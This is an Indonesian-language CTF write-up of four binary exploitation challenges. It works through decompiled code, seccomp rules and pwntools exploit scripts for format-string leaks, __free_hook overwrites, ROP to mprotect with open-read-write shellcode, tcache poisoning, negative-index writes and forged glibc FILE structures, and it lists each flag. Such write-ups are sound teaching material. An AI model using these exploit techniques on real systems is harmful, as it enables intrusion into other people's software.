


Published on | written by abdullah
First note, aku mengerjakan ini semalam setelah kompetisi selesai. Iseng-iseng buka ctftime, di running event ada ini. Tapi, ternyata waktu -1 jam selesai event ini :'(.
Untuk solver dan source challanges bisa didownload disini.
Kill Shot
Simplenya, kita diberi printf yang parameternya kita kontrol untuk mendapakan leak, dan fungsi kill untuk write-what-where. Setelahnya, diberi add dan delete yang secara berurutan fungsi tersebut menggunakan malloc dan free seperti heap exploitation pada umumnya. Sejauh yang aku baca, tidak ada bug pada 2 fungsi tersebut.
Analysist
Kita mempunyai infomation leaks pada fungsi sub_FE3 yang dipanggil diawal program. Dan arbitrary-write pada fungsi kill. Dua fungsi tersebut bisa kita manfaatkan untuk exploitasi binary ini.
Binary ini menggunakan seccomp untuk menfilter system call yang diizinkan oleh binary. Karena ini, inject shellcode mungkin diperlukan (?).
line CODE JT JF K
=================================
0000: 0x20 0x00 0x00 0x00000004 A = arch
0001: 0x15 0x00 0x09 0xc000003e if (A != ARCH_X86_64) goto 0011
0002: 0x20 0x00 0x00 0x00000000 A = sys_number
0003: 0x35 0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x06 0xffffffff if (A != 0xffffffff) goto 0011
0005: 0x15 0x04 0x00 0x00000000 if (A == read) goto 0010
0006: 0x15 0x03 0x00 0x00000001 if (A == write) goto 0010
0007: 0x15 0x02 0x00 0x00000005 if (A == fstat) goto 0010
0008: 0x15 0x01 0x00 0x0000000a if (A == mprotect) goto 0010
0009: 0x15 0x00 0x01 0x00000101 if (A != openat) goto 0011
0010: 0x06 0x00 0x00 0x7fff0000 return ALLOW
0011: 0x06 0x00 0x00 0x00000000 return KILL
Exploit
Information leaks (pie, libc, heap, etc), didapatkan pada fungsi sub_FE3 yang sudah aku tulis diatas.
payload = "%4$p||%6$p||%25$p||%13$p"
r.sendlineafter('Format: ', payload)
leaks = r.recvline(0).split(b'||')
Pertama, dengan fungsi kill, overwrite __free_hook ke fungsi kill untuk dapat arbitrary-write terus-menerus. Panggil free untuk mentriggernya.
r.sendlineafter('Pointer: ', f'{libc.sym.__free_hook}')
r.sendlineafter('Content: ', p64(elf.sym.kill))
# pwndbg> tel &__free_hook 1
# 00:0000 │ 0x1555553268e8 (__free_hook) —▸ 0x5555555550b4 (kill) ◂— push rbp
Arbitrary-write ini akan digunakan untuk tulis ropchain ke RIP yang akan panggil mprotect untuk membuat heap memory memiliki executable permission. Yang pada akhirnya kita akan return ke shellcode kita untuk mendapatkan flagnya.
Sekarang, siapkan shellcodenya. Ini karena kita harus kalkulasi address shellcode kita di heap dengan leaked heap address yang didapatkan tadi, yang nantinya address ini adalah tempat kembali kita setelah membuat memori heap menjadi executable.
# open-read-write shellcode (nice pwntools!)
shellcode = shellcraft.openat(0, '/home/ctf/flag.txt', 0)
shellcode += shellcraft.read('rax', 'rsp', 0x47)
shellcode += shellcraft.write(1, 'rsp', 0x47)
add(0xC8, asm(shellcode))
# pwndbg> dq 0x5555557580f0-0x10
# 00005555557580e0 0000000000000001 00000000000000d1
# 00005555557580f0 2434810101757968 2f66b84801010101
# ^^ our shellcode start here
# 0000555555758100 4850742e67616c66 632f656d6f682fb8
# 0000555555758110 31ff31e689485074 0f0101b866c031d2
shellcode_start = heap + 0xE90
# pwndbg> p/x 0x5555557580f0-0x555555757260
# $2 = 0xe90
Sekarang tinggal ropchain untuk ubah permission heap menjadi executable, lalu return ke shellcode tadi.
stack_rip = stack - 0xD8
rop = ROP(libc)
rop.call(libc.sym['mprotect'], [heap - 0x260, 0x21000, 0x7])
payload = bytes(rop) + p64(shellcode_start)
for offset in range(0, len(payload), 8):
kill(stack_rip + offset, payload[offset:offset + 8])
Exit untuk trigger ropchain dan ret ke shellcode. Sekarang heap memory memiliki permission executable.
pwndbg> vmmap heap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x555555757000 0x555555778000 rwxp 21000 0 [heap]
Footnote
Intended Solution dari author, adalah overwrite fastbinY agar menunjuk ke stack. Agar malloc mengembalikan pointer dalam range stack. Malloc ke-N akan me-return alamat stack yang berisi address dari RIP. Dan melakukan ropchain open-read-write, menggunakan openat.
Flag
flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}
Death Note
Heap exploitation klasik dengan fungsi create, edit, view, delete seperti pada umumnya.
Analysist
Create melakukan malloc dengan size dari user dengan constraint, 0 > size < 0x100. Dengan index array mencari yang kosong dan ditentukan oleh sistem. Data array hanya berukuran 10.
int create()
{
void **note_ptr; // rbx@5
int result; // eax@5
signed int i; // [sp+8h] [bp-18h]@1
signed int size; // [sp+Ch] [bp-14h]@3
for ( i = 0; ; ++i )
{
if ( i > 9 )
return puts("Enough targets for today!");
if ( !*(8LL * i + gdata) )
break;
}
write(1, "Provide note size:", 0x12uLL);
size = read_long();
if ( size <= 0 || size > 0xFF )
{
result = puts("Wrong size!");
}
else
{
note_ptr = (gdata + 8LL * i);
*note_ptr = malloc(size);
gsize[i] = size;
result = printf("Note is created at index: %d\n", i);
}
return result;
}
Edit ini melakukan read array yang sudah diallokasikan oleh user dengan constraint index < 9.
ssize_t edit()
{
ssize_t result; // rax@3
signed int index; // [sp+Ch] [bp-4h]@1
write(1, "Provide note index: ", 0x14uLL);
index = read_long();
if ( index > 9 )
{
result = write(1, "The death note isn't that big unfortunately\n", 0x2CuLL);
}
else if ( *(8LL * index + gdata) )
{
write(1, "Name: ", 6uLL);
result = read(0, *(8LL * index + gdata), gsize[index]);
}
else
{
result = write(1, "Page doesn't even exist!\n", 0x19uLL);
}
return result;
}
Delete akan melakukan free ke index yang sudah diallokasikan dan ditentukan oleh user. Setelah di-free, pointer di set menjadi null, no uaf here. Dan view akan mengoutputkan informasi data dari index yang diberikan.
Bug
Bugnya secara jelas ada di edit. Karena contraint hanya index < 9 dengan bilangan negatif ini akan lolos. Ini bisa digunakan untuk edit pointer-pointer yang ada diatas array_data_notes.
Exploit
Untuk mempermudah interaksi dengan soal,
def create(size):
r.sendlineafter('Exit\n', '1')
r.sendlineafter(':', f'{size}')
def edit(idx, data):
r.sendlineafter('Exit\n', '2')
r.sendlineafter(':', f'{idx}')
r.sendafter(': ', data)
def delete(idx):
r.sendlineafter('Exit\n', '3')
r.sendlineafter(': ', f'{idx}')
def view(idx):
r.sendlineafter('Exit\n', '4')
r.sendlineafter(':', f'{idx}')
return r.recvline(0)
Leak libc bisa didapatkan dengan memenuhi tcachebins. Karena tcachebins sudah penuh, free selanjutnya dengan size yang sama akan masuk ke unsortedbins. Unsortedbins chunk ini mempunyai 2 pointer, FD dan BK. Mereka tunjuk ke area yang sama, yang disebut main_arena yang letaknya di-libc.
for _ in range(8):
create(0x80)
create(0x20)
for i in range(8):
delete(i)
# tcachebins
# 0x90 [ 7]: 0x555555757620 —▸ 0x555555757590 —▸ 0x555555757500 —▸ 0x555555757470 —▸ 0x5555557573e0 —▸ 0x555555757350 —▸ 0x5555557572c0 ◂— 0x0
# unsortedbin
# all: 0x5555557576d0 —▸ 0x155555324ca0 (main_arena+96) ◂— 0x5555557576d0
Sekarang, hanya allokasikan chunks size < chunk unsortedbins. Maka akan ada pointer main_arena di chunk data yang baru saja dialokasikan.
create(0x20)
# pwndbg> dq 0x5555557576a0
# 00005555557576a0 0000000000000000 0000000000000031
# 00005555557576b0 0000155555324d20 0000155555324d20 -> chunks[0]'s data
# 00005555557576c0 0000000000000000 0000000000000000
leak = u64(view(0).ljust(8, b'\0')) >> 8
libc.address = leak - 0x3ebd20
delete(0)
Kondisi tcachebins, array_data_notes dan chunk diatasnya pada heap sekarang,
tcachebins
0x30 [ 1]: 0x5555557576b0 ◂— 0x0
0x90 [ 7]: 0x555555757620 —▸ 0x555555757590 —▸ 0x555555757500 —▸ 0x555555757470 —▸ 0x5555557573e0 —▸ 0x555555757350 —▸ 0x5555557572c0 ◂— 0x0
0x555555757000 0x0000000000000000 0x0000000000000251
0x555555757010 0x0700000000000100 0x0000000000000000
...
0x555555757050 0x0000000000000000 0x00005555557576b0
...
0x555555757080 0x0000000000000000 0x0000555555757620
...
0x555555757250 0x0000000000000000 0x0000000000000061
0x555555757260 0x0000000000000000 0x0000000000000000 --> array_data_notes[10]
0x555555757270 0x0000000000000000 0x0000000000000000
0x555555757280 0x0000000000000000 0x0000000000000000
0x555555757290 0x0000000000000000 0x0000000000000000
0x5555557572a0 0x0000555555757740 0x0000000000000000
0x5555557572b0 0x0000000000000000
Pada alamat 0x555555757088, berisi 0x555555757620, yang mana ini merupakan salah satu FD pointer dari free`d chunk yang ada di tcachebins list diatas. Karena terdapat index-out-of-bound (negative number) pada fungsi edit, kita bisa melakukan tcache-poisoning dengan mengedit alamat tersebut.
Selanjutnya hanya mencari index yang akan menunjuk ke alamat target kita diatas. Lalu, edit agar menunjuk ke __free_hook. Yang nantinya akan kita overwrite ke system untuk mendapatkan RCE.
# pwndbg> p (0x555555757088-0x555555757260)/8
# $2 = -59
edit(-59, p64(libc.sym['__free_hook']))
# 0x90 [ 7]: 0x555555757620 —▸ 0x1555553268e8 (__free_hook) ◂— 0x0
create(0x80) # 0
edit(0, '/bin/sh\0')
create(0x80) # 1
edit(1, p64(libc.sym['system']))
# pwndbg> tel &__free_hook 1
# 00:0000│ 0x1555553268e8 (__free_hook) —▸ 0x155554f884e0 (system) ◂— test rdi, rdi
Trigger dengan melakukan free ke chunk yang menyimpan string /bin/sh.
# profit
delete(0)
Flag
flag{this_has_gotta_be_the_longest_40_seconds_of_my_life_d543c7e3546b10c1d6ed0046db88787a}
Success
Pada dasarnya challange ini berdasarkan File Structure Exploit - GLIBC 2.27. Goal-nya adalah untuk bypass _IO_vtable_check yang terdapat pada libc versi 2.24 keatas.
Infomation Leaks
Didapatkan pada fungsi get_name, karena menggunakan read yang tidak mengakhiri buffernya dengan nullbyte. Dengan ini, bisa membocorkan nilai-nilai yang ada distack (libc, etc) yang ada distack.
gdb-peda$ x/3gx 0x7fffffffec70 # our buffer
0x7fffffffec70: 0x0000000000000000 0x0000555555555090 <- pie
0x7fffffffec80: 0x00001555553212a0 <- libc symbols `_IO_file_jumps`
r.sendafter('Please provide student username: ', 'A' * 0x8)
pie = uu64(r.recvline(0).split()[2][8:]) - 0x1090
r.sendafter('Please provide student username: ', 'A' * 0x10)
libc.address = uu64(r.recvline(0).split()[2][0x10:]) - libc.sym['_IO_file_jumps']
Bug nya ada di fungsi fill_data. Out-of-bound di .bss, karena dword_202060 hanya berukuran 64, tetapi input number bisa sampai 64, ini akan meng-overwrite file pointer numbers2.
number = get_int(1LL, "Provide number of subjects: ");
if ( number > 64 || number < 0 )
exit(0);
for ( i = 0; i <= number; ++i )
{
get_float(1LL, &s);
dword_202060[i] = _mm_cvtsi128_si32(a1);
}
/**
* .bss:0000000000202060 ; _DWORD dword_202060[64]
* .bss:0000000000202160 ; FILE *numbers2
**/
Crafting Fake File Structure
Tidak ribet-ribet amat, karena pwntools sudah menyediakan :)
rdi = libc.search(b'/bin/sh').__next__()
fake_vtable = (libc.sym['_IO_file_jumps'] + 0xd8) - 2 * 8
# nice pwntools again n again :)
fake_struct = FileStructure()
fake_struct._IO_buf_base = 0
fake_struct._IO_buf_end = (rdi - 100) // 2
fake_struct._IO_write_ptr = (rdi - 100) // 2
fake_struct._IO_write_base = 0
fake_struct._lock = pie + elf.sym['ch'] + 0x80
fake_struct.vtable = fake_vtable
Karena terdapat space array dword_202060[64], ini merupakan target yang bagus untuk menaruh fake_file_struct yang dibuat. Tantangannya adalah menulis dalam bentuk float. Berikut helper untuk konversi ke float,
def toFloat(value):
return struct.unpack("<f", p32(value))[0]
Exploit
Writing time, wwww.
payload = bytes(fake_struct) + p64(libc.sym['system'])
for i in range(0, len(payload), 8):
target = u64(payload[i:i+8])
r.sendlineafter(': ', f'{toFloat(target & 0xFFFFFFFF)}')
r.sendlineafter(': ', f'{toFloat(target >> 32)}')
# padding
for _ in range(6):
r.sendlineafter(': ', f'{toFloat(0)}')
# overwrite file_stream_ptr numbers2 to our fake_file_struct.
r.sendlineafter(': ', f'{toFloat((pie + elf.sym.ch) & 0xFFFFFFFF)}')
Fungsi fclose akan men-trigger fake_file_struct kita dan RCE didapatkan.
Flag
flag{exploiting_files_with_floats_is_really_cool_cee02ce60690afdbdb1f4fcd20a03aaa}
Membership Management
Heap exploitation challange GLIBC 2.31. Dengan fitur create, delete, edit dan tanpa view. Yaa, inti tantangan problem ini adalah tidak ada fungsi view, yang dapat mempermudah untuk mendapat leak.
Analysist
Subscribe, akan melakukan malloc sebesar 0x50. Pointer heap dari malloc ini ditampung di variable global array yang memiliki size 52. Dan melakukan inisiasi is_active pada index array yang dipakai menjadi 1. Ini menandakan chunk dalam kondisi terpakai.
int __usercall subscribe()
{
int result; // eax@3
signed int i; // [sp-Ch] [bp-Ch]@1
__asm { rep nop edx }
for ( i = 0; i <= 49; ++i )
{
if ( !is_active[i] )
{
gdata[i] = malloc(0x50uLL);
puts("Done");
result = i;
is_active[i] = 1;
return result;
}
}
return puts("No more free slots!");
}
Unsubscribe, akan melakukan free terhadap suatu index array, dan mengeset is_active pada index ini menjadi 0.
int __usercall unsubscribe()
{
int result; // eax@3
int index; // [sp-Ch] [bp-Ch]@1
printf("Index: ");
index = read_long();
if ( index < 0 || index > 50 )
{
result = puts("There is no such member");
}
else
{
result = is_active[index];
if ( result )
{
free(gdata[index]);
puts("Done");
result = index;
is_active[index] = 0;
}
}
return result;
}
Modify, melakukan read terhadap content member dengan constraint 0 >= index <= 50 yang mana index adalah pilihan dari user.
int __usercall modify()
{
int result; // eax@3
int index; // [sp-Ch] [bp-Ch]@1
printf("Index: ");
index = read_long(&v3);
if ( index < 0 || index > 50 )
{
result = puts("There is no such member");
}
else
{
printf("Content: ");
result = read(0, gdata[index], 0x32uLL);
}
return result;
}
Bug
Ada di fungsi unsubscribe, karena global data array pada index yang telah di free tidak di-NULL kan. Sehingga, menimbulkan bug use-after-free. Dengan ini kita bisa mengedit chunk yang telah di free sehingga FD dan BK pointer chunk yang telah di free dapat kita kontrol untuk menunjuk kemanapun.
Information Leaks
Tantangannya adalah tidak ada fitur view. Leak bisa didapatkan dengan melakukan partial overwrite ke _IO_2_1_stdout_. Cara ini membutuhkan bruteforce 1 byte dengan kemungkinan 1/16. Hal yang harus dilakukan adalah meng-corrupt tcachebins agar menunjuk ke _IO_2_1_stdout_.
Exploit
Helper,
def subscribe():
r.sendlineafter('>', '1')
def unsubscribe(idx):
r.sendlineafter('>', '2')
r.sendlineafter(': ', f'{idx}')
def modify(idx, data):
r.sendlineafter('>', '3')
r.sendlineafter(': ', f'{idx}')
r.sendafter(': ', data)
Karena subcsribe hanya melakukan malloc sebesar 0x50, kita perlu chunk yang besar agar jika di free, akan masuk ke unsortedbins sehingga, FD dan BK pointer menunjuk ke main_arena untuk melakukan partial overwrite.
Dengan use-after-free, edit FD pointer dari chunk yang sudah difree agar menunjuk ke chunk_size dari suatu chunk yang berdekatan.
for _ in range(3):
subscribe()
unsubscribe(0)
unsubscribe(2)
# tcachebins
# 0x60 [ 2]: 0x555555559360 —▸ 0x5555555592a0 ◂— 0x0
Kondisi ketiga chunks,
0x555555559290: 0x0000000000000000 0x0000000000000061 <-- heap_struct of chunks[0] (free`d)
0x5555555592a0: 0x0000000000000000 0x0000555555559010 <-- tcachebins[0x60][1/2]
0x5555555592b0: 0x0000000000000000 0x0000000000000000
0x5555555592c0: 0x0000000000000000 0x0000000000000000
0x5555555592d0: 0x0000000000000000 0x0000000000000000
0x5555555592e0: 0x0000000000000000 0x0000000000000000
0x5555555592f0: 0x0000000000000000 0x0000000000000061 <-- heap_struct of chunks[1]
0x555555559300: 0x0000000000000000 0x0000000000000000
0x555555559310: 0x0000000000000000 0x0000000000000000
0x555555559320: 0x0000000000000000 0x0000000000000000
0x555555559330: 0x0000000000000000 0x0000000000000000
0x555555559340: 0x0000000000000000 0x0000000000000000
0x555555559350: 0x0000000000000000 0x0000000000000061 <-- heap_struct of chunks[2] (free`d)
0x555555559360: 0x00005555555592a0 0x0000555555559010 <-- tcachebins[0x60][0/2]
0x555555559370: 0x0000000000000000 0x0000000000000000
0x555555559380: 0x0000000000000000 0x0000000000000000
0x555555559390: 0x0000000000000000 0x0000000000000000
0x5555555593a0: 0x0000000000000000 0x0000000000000000
0x5555555593b0: 0x0000000000000000 0x0000000000020c91 <-- top_chunk
Terlihat bahwa chunks_size dari chunks[1] terdapat pada alamat 0x5555555592f0. Ini hanya berbeda 1 byte LSB dengan FD pointer chunks[2] 0x00005555555592a0. Yang diperlukan hanya mengedit LSB FD pointer chunks[2] ini ke 0xf8.
modify(2, b'\xf8')
# tcachebins
# 0x60 [ 2]: 0x555555559360 —▸ 0x5555555592f8 ◂— 0x61 /* 'a' */
Sekarang siapkan chunks padding untuk chunks size besar nanti,
subscribe() # 0
subscribe() # 2 -> points to chunks[1]'s size
# chunk data for chunks_size 0x420
for _ in range(9):
subscribe()
# for top chunk
subscribe()
Edit size dari chunks[1] tadi menjadi 0x421 dan lakukan free, agar masuk ke unsortedbins.
modify(2, p64(0x421))
unsubscribe(1)
# unsortedbin
# all: 0x5555555592f0 —▸ 0x7ffff7fbabe0 (main_arena+96) ◂— 0x5555555592f0
Sekarang siapkan chunks yang berdekatan, untuk men-corrupt tcachebins agar menunjuk ke _IO_2_1_stdout_.
# idx: 0 - 1 - 14 - 15 - 16
for _ in range(5):
subscribe()
# LSB OF _IO_2_1_stdout_
modify(16, b'\xa0\xb6')
# pwndbg> dq 0x555555559480-0x10
# 0000555555559470 0000000000000000 0000000000000061
# 0000555555559480 00007ffff7fbb6a0 00007ffff7fbabe0
# ^^ our chunk target
# 0000555555559490 0000000000000000 0000000000000000
# 00005555555594a0 0000000000000000 0000000000000000
Aku memilih chunks[16] menjadi target aku untuk _IO_2_1_stdout_. Lalu siapkan free`d chunks yang berdekatan, agar chunks target dan salah FD pointer yang ada di tcachabins list hanya berbeda 1 byte saja di LSB-nya, sehingga bisa kita overwrite agar menunjuk ke target.
unsubscribe(14)
unsubscribe(15)
unsubscribe(1)
# tcachebins
# 0x60 [ 3]: 0x555555559300 —▸ 0x555555559420 —▸ 0x5555555593c0 ◂— 0x61 /* 'a' */
FD Pointer dari chunks[1] yang menunjuk ke 0x555555559420 hanya berbeda 1 byte LSB-nya saja dengan chunk target kita yang berada di 0000555555559480. Dengan mengubah 1 byte LSB dari chunks[1] menjadi 0x80, tcachebins akan menunjuk ke chunk target kita.
modify(1, b'\x80')
# tcachebins
# 0x60 [ 3]: 0x555555559300 —▸ 0x555555559480 —▸ 0x7ffff7fbb6a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
Note, saya mematikan ASLR untuk mempermudah melakukan debugging.
Sekarang, overwrite file struct _IO_2_1_stdout_ agar mencetak suatu alamat libc. Dengan mengoverwite 1 byte LSB dari _IO_write_base ke suatu alamat yang menyimpan alamat libc.
for _ in range(3):
subscribe()
fake_struct = p64(0xfbad1800) + p64(0) + p64(0) + p64(0) + b'\x08'
modify(15, fake_struct)
Ketika _IO_2_1_stdout_ berhasil dioverwrite, maka program akan mengoutputkan suatu memory yang ditunjuk oleh _IO_write_base dan bisa dikalkulasi untuk mendapat libc leak.

Karena leak sudah didapat, tinggal tcache-poisoning seperti biasa. Overwrite __free_hook menjadi system. Free chunk yang menyimpan string /bin/sh untuk dapat RCE !
unsubscribe(11)
unsubscribe(12)
modify(12, p64(libc.sym['__free_hook']))
# tcachebins
# 0x60 [ 2]: 0x555555559720 —▸ 0x7ffff7fbdb28 (__free_hook) ◂— 0x0
subscribe()
subscribe()
modify(12, p64(libc.sym['system']))
# pwndbg> tel &__free_hook 1
# 00:0000│ 0x7ffff7fbdb28 (__free_hook) —▸ 0x7ffff7e24410 (system) ◂— endbr64
modify(13, '/bin/sh\0')
unsubscribe(13)
Tambahkan try except untuk otomasi bruteforce.

Flag
flag{welcome_you_are_now_one_of_us_4d2d08c6994188b642a854194916fbbc}
Nice challanges!